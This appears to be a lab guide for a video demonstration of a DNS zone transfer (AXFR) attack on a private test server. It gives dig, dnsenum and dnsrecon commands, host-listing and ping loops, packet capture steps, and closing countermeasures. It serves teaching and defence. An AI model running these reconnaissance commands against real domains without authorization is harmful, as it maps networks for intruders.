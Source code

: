 # DNS Zone Transfer Attack Procedure

## Overview

DNS Zone Transfer (AXFR) is a protocol feature that allows a DNS server to replicate its entire zone database to another DNS server. When improperly configured, it can be exploited by attackers to obtain a complete list of all hosts in a domain, providing valuable reconnaissance information.

## Tools Required

1. `dig` - DNS lookup utility
2. `dnsenum` - DNS enumeration tool
3. `dnsrecon` - DNS reconnaissance tool
4. Wireshark or tcpdump - For packet capture and analysis

## Procedure

### 1. Initial Reconnaissance

1. First, verify that the target DNS server is responding:

   ```bash
   ping -c 3 192.168.2.10
   ```

2. Identify the name servers for the target domain:

   ```bash
   dig NS example.com @192.168.2.10
   ```

3. Attempt a standard DNS query to establish baseline communication:
   ```bash
   dig A www.example.com @192.168.2.10
   ```

### 2. Testing for Zone Transfer Vulnerability

1. Start packet capture on the attacker machine:

   ```bash
   tcpdump -i eth0 -n port 53 -w zone_transfer.pcap
   ```

2. Test for zone transfer using `dig`:

   ```bash
   dig AXFR example.com @192.168.2.10
   ```

3. Analyze the results:
   - If successful, this will return all DNS records for the domain
   - Look for A, MX, CNAME, TXT, and other record types
   - Note any sensitive hosts or patterns in naming conventions

### 3. Advanced Enumeration with Specialized Tools

1. Using `dnsenum`:

   ```bash
   dnsenum --enum -p 10 -s 10 -o zone_transfer_results.xml --noreverse example.com -s 192.168.2.10
   ```

2. Using `dnsrecon`:

   ```bash
   dnsrecon -d example.com -t axfr -n 192.168.2.10
   ```

3. Compare the results from different tools to ensure comprehensive enumeration

### 4. Analyzing Zone Transfer Data

1. Stop the packet capture:

   ```bash
   # Press Ctrl+C in the tcpdump terminal
   ```

2. Analyze the packet capture to understand the zone transfer protocol:
   ```bash
   wireshark zone_transfer.pcap
   ```
3. Extract key information from the results:

   ```bash
   # Create a list of all A records (IP addresses)
   dig AXFR example.com @192.168.2.10 | grep -E "IN\s+A" | awk '{print $1, $4, $5}'

   # Extract all mail servers
   dig AXFR example.com @192.168.2.10 | grep -E "IN\s+MX" | awk '{print $1, $4, $5, $6}'
   ```

4. Document discovered hosts and services for the attack demonstration:
   ```bash
   echo "Discovered hosts in example.com domain:" > discovered_hosts.txt
   dig AXFR example.com @192.168.2.10 | grep -E "IN\s+A" | awk '{print $1, $5}' >> discovered_hosts.txt
   cat discovered_hosts.txt
   ```

### 5. Demonstrating the Impact

1. Show how the information could be used for further attacks:

   ```bash
   # Ping each discovered host to verify reachability
   for host in $(cat discovered_hosts.txt | awk '{print $2}'); do
     echo "Checking host: $host"
     ping -c 1 $host
   done
   ```

2. Map the network structure based on the DNS information:

   ```bash
   # Create a simple visualization (textual)
   echo "DNS Zone Map for example.com:" > zone_map.txt
   echo "------------------------" >> zone_map.txt
   dig AXFR example.com @192.168.2.10 | grep -v "^;" | sort >> zone_map.txt
   cat zone_map.txt
   ```

3. Show potential targeted attacks based on discovered hosts:
   - Identify admin interfaces or internal systems
   - Note patterns in naming conventions
   - Highlight sensitive systems exposed by the zone transfer

### 6. Evidence Collection

1. Save all outputs for the video demonstration:

   ```bash
   # Create a directory for evidence
   mkdir -p zone_transfer_evidence

   # Save all outputs
   dig AXFR example.com @192.168.2.10 > zone_transfer_evidence/full_zone_transfer.txt
   cp zone_transfer.pcap zone_transfer_evidence/
   cp discovered_hosts.txt zone_transfer_evidence/
   cp zone_map.txt zone_transfer_evidence/
   ```

## Explanation for Video

When documenting this attack for the video:

1. Explain the DNS Zone Transfer mechanism and its legitimate uses
2. Describe the security issue with improper configuration
3. Show the BIND configuration that enabled the vulnerability
4. Demonstrate each step of the attack with command outputs
5. Analyze the protocol using packet captures
6. Explain the potential impact of the information disclosure
7. Discuss countermeasures (restricting zone transfers, TSIG authentication)

This demonstrates a complete reconnaissance attack that could lead to further network penetration.
